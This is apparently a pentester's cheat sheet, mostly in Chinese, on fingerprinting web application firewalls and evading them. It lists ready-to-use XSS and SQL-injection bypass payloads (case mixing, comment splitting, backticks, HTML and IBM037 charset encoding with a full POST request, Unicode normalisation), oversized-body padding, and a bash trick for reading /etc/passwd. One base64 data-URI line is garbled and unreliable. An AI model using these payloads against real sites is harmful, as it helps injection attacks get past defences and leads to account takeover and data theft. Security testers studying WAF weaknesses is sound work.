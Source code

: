# Web Application Firewall (WAF)
https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2 <br>
## 手動識別 WAF
- WAF 的名稱Server 標題（例如Server: cloudflare）
- 與 WAF 相關的其他 HTTP 回應標頭（例如CF-RAY: xxxxxxxxxxx）
- 看似由 WAF 設定的 Cookie（例如回應標頭Set-Cookie: __cfduid=xxxxx）
- 提交惡意請求時的唯一回應代碼。 （例如412）
- 可以透過FIN/RST向伺服器發送 TCP 封包

## 自動化識別 WAF
1. Nmap
  - Nmap 腳本引擎 (NSE) 包含用於偵測和指紋辨識防火牆的腳本
  - $ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com
2. WafW00f
  - 命令列實用程序
  - $ wafw00f example.com
3. WhatWaf

# Bypassing WAFs
## Bypassing Regex 繞過正規表示式
- 更改有效載荷的大小寫 :
    - <sCrIpT>alert(XSS)</sCriPt> 
- 使用各種編碼、替換函數或字元 :
    - 在前面加上一個額外的「<」:  << script>alert(XSS)</script >
    - 刪除結束標籤 :  <script>alert(XSS) //
    - 使用反引號取代代號代替 : <script>alert`XSS`</script>
- 使用其他語法以及使用換行符或製表符。
    - 雙開尖括號 : java%0ascript:alert ( http.com 
    - 不常見的標籤 : <"STYLE>.classname{background-image:url( "javascript:alert(XSS)" );/STYLE">
    - 需要繞過: <"img/src=1/onerror=alert(0)">
    - 額外字符 : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa href=javascript:alert(1)>xss</a">"

## Obfuscation 混淆 
- Function( "ale" + "rt(1)" )(); #使用除了 alert、console.log 和 prompt 之外的不常見函數javascript
- /? id =1+un/**/ion+sel/**/ect+1,2,3-- #在 SQL 查詢中使用註解來分解語句
- new Function`alt\`6\``; #使用反引號而不是括號
- data:text/html; base64 4mPHxNv564Fx2Fv)5(Q/html; base2W.編碼 javascript %26%2397;lert(1) #使用 HTML 編碼
- <a src= "%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm ( XSSDY #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # 在事件處理程序和等號之間使用任何非字母、數字或封裝字元（僅適用於 Gecko 引擎）

## Charset 字元集
- 修改Content-Type標頭以使用不同的字元集（例如ibm500）
- Python
$ python3  <br>
-- snip --  <br>
>>>  import urllib.parse <br>
>>>  s = '<script>alert("xss")</script>' <br>
 >>>  urllib.parse.quote_plus(s.encode( "IBM037" )) <br>
 'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n' <br>

- 將編碼後的字串傳送到請求正文中並上傳到伺服器 <br>
POST /comment/post HTTP/1.1 <br>
Host: chatapp <br>
Content-Type: application/x-www-form-urlencoded; charset=ibm500 <br>
Content-Length: 74 <br>
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3 <br>

## Content Size 內容大小
- 如果有效負載超過一定大小，則不會檢查請求
- add gibberi e.g 8kb char
## Unicode Compatibility
- 將視覺上不同的字元分解為相同的基本抽象字元
- NFC：規範化形式規範組合
- NFD：規範化形式規範分解
- NFKC：規範化形式相容性組合
- NFKD：範式相容性分解
e.g ＜img src=p onerror='prompt(1)'> --> ＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥
## Uninitialized Variables 未初始化
- Bash 將未初始化的變數視為空字串
- echo $u
- cat$u /etc%u/passwd$u

## Tools 
- Bypass WAF
    - https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c
- 
